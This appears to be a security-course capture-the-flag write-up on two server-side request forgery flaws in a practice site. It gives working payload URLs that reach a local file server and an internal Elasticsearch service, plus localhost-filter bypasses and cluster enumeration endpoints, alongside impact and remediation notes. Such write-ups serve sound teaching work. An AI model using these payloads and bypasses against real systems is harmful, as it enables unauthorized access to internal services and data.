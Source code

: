 ```yaml
---
layout: post
title: COMP6843 - Extended Break 4
date: 2018-05-20
categories: ['writeup']
---
```

# Server Side Request Forgery: Local Files
Target: https://ssrfsquared.ns.agency/

### Proof of Concept

1. Intercept the requests made between the front and back end of the site during the initial load
2. Notice that there is a request for `https://ssrfsquared.ns.agency/static?r=http%3A%2F%2F127.0.0.1%3A9447%2Fstyles.css`, which can also be confirmed by viewing the source of the page
3. This becomes an entry point for an attacker to probe the internal network
4. Some files return the same content when accessed externally or internally such as `index.html` or `styles.css`
5. When viewing `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/styles.css` there is a hint that something else is on the server
6. Logically we try `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/flag` and it gives us the flag  
   `(wget -qO- https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/flag)` 
```
 sectalks{i_wonder_what_else_is_running_locally}
 ```
Extra Info:  
- not sure why but `localhost` gives the message `big sorry, we broke localhost, try 127.0.0.1` but this can be circumvented by using the following: `127.0.0.1`, `0`, `Localhost` / `lOcAlHoSt` etc 


### Impact 
**P2 - High**

Attackers can access localhost and read files stored in the working directory of the application, which may contain data that is not meant for public viewing. In this case only static files are retrieved, but in a real world scenario an attacker may be able to find other files (eg. _.php_ files) which may lead to code execution. If combined with a directory traversal vulnerability, the attacker can also read any files in the entire filesystem with the right permissions.

### Remediation 

Avoid querying files directly through URL requests using localhost, or perform server-side validation on the URLs requested if it cannot be avoided. Any important files in the working directory should have their permissions set so that they are not viewable by the web application if not necessary _(Principal of Least Privilege)_.  
  
   
# Server Side Request Forgery: Local Services
Target: https://ssrfsquared.ns.agency/

### Proof of Concept

The search functionality of the site is powered by _Elastic Search_, which serves up different Phrack articles.
There is also a flag stored in the service somewhere, as searching for `FLAG` or `flag` would reveal
```
The flag is sectalks{REDACTED}
```
hinting that it should be accessed locally. 

1. By doing port enumeration via GET requests or simply by guessing common port numbers, we can find the service at  
   `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9200/`  
2. Utilizing the `_search` function we can search for the flag:  
   `https://ssrfsquared.ns.agency/static?r=http://0:9200/_search?q=sectalks`  returns :  
```
   {
  "took": 1,
  "timed_out": false,
  "_shards": {
    "total": 5,
    "successful": 5,
    "failed": 0
  },
  "hits": {
    "total": 1,
    "max_score": 8.236906,
    "hits": [
      {
        "_index": "phrack",
        "_type": "article",
        "_id": "976",
        "_score": 8.236906,
        "_source": {
          "content": "The flag is sectalks{ssrf_for_fun_and_profit}",
          "title": "Flag",
          "author": "sy + grc",
          "issue": 0,
          "number": 0
        }
      }
    ]
  }
}
```  

3. The flag can also be found by enumerating all phrack articles (Although not recommended)     
    `https://ssrfsquared.ns.agency/static?r=http://0:9200/phrack/article/976`  
   
Extra Info:  
- A lot of additional information can be found by executing any of the following commands 
```
http://0:9200/_cluster/settings
http://0:9200/_cluster/state
http://0:9200/phrack/article/14
http://0:9200/_tasks/
http://0:9200/_nodes?pretty=true
http://0:9200/_mapping
http://0:9200/_cat&?pretty=true
```

### Impact 
**P2 - High**

Attackers can enumerate port numbers and access services that are not public-facing, which might lead to the disclosure of data or unauthorized access to the internal network. This can allow for lateral movement or even worse privilege escalation, depending on the access controls within the internal network.

### Remediation

Similar to above, avoid sending requests to the internal network and to perform validation for requests if necessary. It is possible to implement a Web Application Firewall (WAF) but determined attackers may be able to bypass the WAF with specially crafted URLs (eg. by double encoding or using multibyte characters)

Elastic Search by itself does not support authentication so another method of solving this problem is to never assume the internal network is safe, and to install proper access controls on any/all internal services. 

